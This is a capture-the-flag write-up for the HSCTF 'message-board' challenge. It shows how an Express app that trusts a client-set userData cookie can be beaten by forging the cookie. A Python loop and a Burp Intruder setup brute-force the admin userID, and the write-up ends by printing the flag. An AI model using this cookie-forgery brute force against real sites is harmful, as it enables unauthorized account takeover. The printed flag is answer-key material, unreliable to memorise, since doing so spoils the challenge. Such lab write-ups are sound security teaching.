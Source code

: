 # Challenge Name: message-board

## Description

Your employer, LameCompany, has lots of gossip on its company message board: message-board.hsc.tf. You, Kupatergent, are able to access some of the tea, but not all of it! Unsatisfied, you figure that the admin user must have access to ALL of the tea. Your goal is to find the tea you've been missing out on.

Your login credentials: username: kupatergent password: gandal

Server code is attached (slightly modified).

[message-board-master.zip](message-board-master.zip)

## Detailed solution

Start by opening the challenge link https://message-board.hsc.tf/  

![image](https://user-images.githubusercontent.com/72421091/122657103-4cc15d00-d158-11eb-91f5-efc9767c5bf3.png)

We have a login page https://message-board.hsc.tf/login  

![image](https://user-images.githubusercontent.com/72421091/122657152-c8230e80-d158-11eb-9df6-182658900f84.png)

It's a normal login form that use POST request  

```html
    <form action="/login" method="POST">
        <div class="mb-3">
            <label class="form-label" for="username">Username</label>
            <input class="form-control" type="text" name="username" id="">
        </div>
        <div class="mb-3">
            <label class="form-label" for="password">Password</label>
            <input class="form-control" type="password" name="password" id="">
        </div>
        <button class="btn btn-primary" type="submit">Login</button>
        <p class="form-text">Gossip abounds</p>
    </form>
```

Now let's check the source code [message-board-master.zip](message-board-master.zip) 

It's a Express-NodeJS web application let's see the app.js 

```js
const express = require("express")
const cookieParser = require("cookie-parser")
const ejs = require("ejs")
require("dotenv").config()

const app = express()
app.use(express.urlencoded({ extended: true }))
app.use(cookieParser())
app.set("view engine", "ejs")
app.use(express.static("public"))

const users = [
    {
        userID: "972",
        username: "kupatergent",
        password: "gandal"
    },
    {
        userID: "***",
        username: "admin"
    }
]

app.get("/", (req, res) => {
    const admin = users.find(u => u.username === "admin")
    if(req.cookies && req.cookies.userData && req.cookies.userData.userID) {
        const {userID, username} = req.cookies.userData
        if(req.cookies.userData.userID === admin.userID) res.render("home.ejs", {username: username, flag: process.env.FLAG})
        else res.render("home.ejs", {username: username, flag: "no flag for you"})
    } else {
        res.render("unauth.ejs")
    }
})

app.route("/login")
.get((req, res) => {
    if(req.cookies.userData && req.cookies.userData.userID) {
        res.redirect("/")
    } else {
        res.render("login.ejs", {err: false})
    }
})
.post((req, res)=> {
    const request = {
        username: req.body.username,
        password: req.body.password
    }
    const user = users.find(u => (u.username === request.username && u.password === request.password))
    if(user) {
        res.cookie("userData", {userID: user.userID, username: user.username})
        res.redirect("/")
    } else {
        res.render("login", {err: true}) // didn't work!
    }
})

app.get("/logout", (req, res) => {
    res.clearCookie("userData")
    res.redirect("/login")
}) 

app.listen(3000, (err) => {
    if (err) console.log(err);
    else console.log("connected at 3000 :)");
})
```  

The login POST request test if the usersname and password exist in the ``` const users ``` 

As we can users has **kupatergent** and admin, the password and userID for the admin has been edited for the challenge  

So we have only the login ```kupatergent:gandal``` 

![image](https://user-images.githubusercontent.com/72421091/122657442-7c259900-d15b-11eb-802a-4342bb8975ef.png)

After login in using ```kupatergent:gandal``` we can the message no flag for you 

```js
app.get("/", (req, res) => {
    const admin = users.find(u => u.username === "admin")
    if(req.cookies && req.cookies.userData && req.cookies.userData.userID) {
        const {userID, username} = req.cookies.userData
        if(req.cookies.userData.userID === admin.userID) res.render("home.ejs", {username: username, flag: process.env.FLAG})
        else res.render("home.ejs", {username: username, flag: "no flag for you"})
    } else {
        res.render("unauth.ejs")
    }
})
``` 
As we can see if we acces the home page a test check our cookie and extract the userID and username and compare them to username and userID of the admin 

If our cookie has the admin username and userID we gonna see the flag 

A cookie has been generated after login in ```kupatergent:gandal``` we can see it in dev tools 

```
userData=j%3A%7B%22userID%22%3A%22972%22%2C%22username%22%3A%22kupatergent%22%7D
``` 

It's url encoded let's decode it 
  
```
j:{"userID":"972","username":"kupatergent"}
```  

As we can the cookie has the userID and the username. So to be able to get the flag we need to craft a cookie with 

j:{"userID":"X","username":"admin"} as X is admin userID 

So we need to bruteforce the userID until we got a page with flag 

```python
import requests
from requests.structures import CaseInsensitiveDict

url = "https://message-board.hsc.tf/"

headers = CaseInsensitiveDict()

for i in range(0, 999):
    print("userID = " + str(i) ) 
    headers["Cookie"] = "userData=j:%7B%22userID%22:%22" + str(i)+ "%22,%22username%22:%22admin%22%7D"
    resp = requests.get(url, headers=headers)
    page = resp.content.decode("utf-8")
    if page.find("no flag for you") != 1429:
        print(page)
        break
``` 

![image](https://user-images.githubusercontent.com/72421091/122657971-20114380-d160-11eb-882d-d16ef7934b58.png)


We got admin userID which is 768 and the flag 


## Flag

```
flag{y4m_y4m_c00k13s}
```



## OR


I logged in using the given credentials.

Found a cookie named userData with userID and username

![](https://i.imgur.com/HZzaAdD.png)

here userID is `972` and username is `kupatergent`

Now i started looking into the given server code files and in one of the files named app.js
i found this:

![](https://i.imgur.com/SuX3MTK.png)

that indicates that we don’t need password for admin access we just need the correct user id.

So, now i fired up BurpSuite sent the request with cookie to the intruder replaced the username with admin and set the payload parameter at userID

```
Cookie: userData=j%3A%7B%22userID%22%3A%22§9§%22%2C%22username%22%3A%22admin%22%7D
```
![](https://i.imgur.com/YcqzWor.png)

Payload settings:

![](https://i.imgur.com/hvg4MID.png)

Also set up a grep match for flag{ as that is the starting of the flag

![](https://i.imgur.com/5VF3VGA.png)

And now we have to look for a ticked checkbox for flag{ and in the response section of that response we have the flag

![](https://i.imgur.com/4K3oZKR.png)

here we have the flag, we can confirm it on the website by changing the cookie values:

```
userID = 768
username = admin
```

![](https://i.imgur.com/loSsK8P.png)


```
flag{y4m_y4m_c00k13s}
```